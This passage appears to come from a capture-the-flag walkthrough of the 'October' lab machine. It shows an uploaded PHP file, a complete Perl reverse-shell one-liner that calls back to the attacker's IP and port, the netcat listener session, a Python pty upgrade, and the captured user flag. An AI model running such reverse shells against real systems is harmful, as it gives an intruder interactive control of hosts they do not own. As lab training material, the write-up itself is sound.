 ```
============================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100664/rw-rw-r--  14     fil   2017-04-06 23:48:04 +0200  .gitignore
100644/rw-r--r--  27035  fil   2017-05-17 15:47:02 +0200  dr.php5
```

We use this shell to create an additional reverse shell (in case we have problems with reverse shell, to fall back to the original shell) 

```
perl -e 'use Socket;$i="10.10.14.28";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

After receiving the new reverse shell We stabelize the shell:

```
$ nc -lnvp 4444                            
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.16] 44294
sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@october:/home/harry$ ls -al
ls -al
total 5044
drwxr-xr-x 4 harry harry    4096 Apr 21  2017 .
drwxr-xr-x 3 root  root     4096 Apr 20  2017 ..
-rw------- 1 root  root        1 Dec 24  2017 .bash_history
-rw-r--r-- 1 harry harry     220 Apr 20  2017 .bash_logout
-rw-r--r-- 1 harry harry    3637 Apr 20  2017 .bashrc
drwx------ 2 harry harry    4096 Apr 20  2017 .cache
drwxr-xr-x 3 root  root     4096 Apr 20  2017 .composer
-rw------- 1 root  root       10 May 17  2017 .nano_history
-rw-r--r-- 1 harry harry     675 Apr 20  2017 .profile
-rw-rw-r-- 1 harry harry 5123369 Apr 20  2017 october-1.0.412.tar.gz
-r--r--r-- 1 harry harry      33 Apr 21  2017 user.txt
```

We can retrieve the user flag:

```
www-data@october:/home/harry$ cat user.txt 
cat user.txt 
29161ca87aa3d34929dc46efc40c89c0
www-data@october:/home/harry$ 
```

![ImgPlaceholder](screenshots/user_flag.png)
